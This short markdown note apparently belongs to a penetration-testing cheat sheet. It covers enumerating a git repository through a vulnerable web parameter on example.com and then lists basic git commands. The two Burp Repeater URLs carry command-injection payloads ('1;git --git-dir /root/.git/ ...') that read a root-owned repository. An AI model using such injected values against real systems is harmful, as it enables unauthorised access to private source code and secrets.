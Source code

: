 # Git

## Summary
- [Enumeration with Burp Repeater](#enumeration-with-burp-repeater)
- [Interacting with Git](#interacting-with-git)

## Enumeration with Burp Repeater
- `http://example.com/exif?url=1;git --git-dir /root/.git/ log`

- `http://example.com/exif?url=1;git --git-dir /root/.git/ diff {commit}`

## Interacting with Git
```
git branch
git log 'commit' --oneline
git show 'hashes'
```
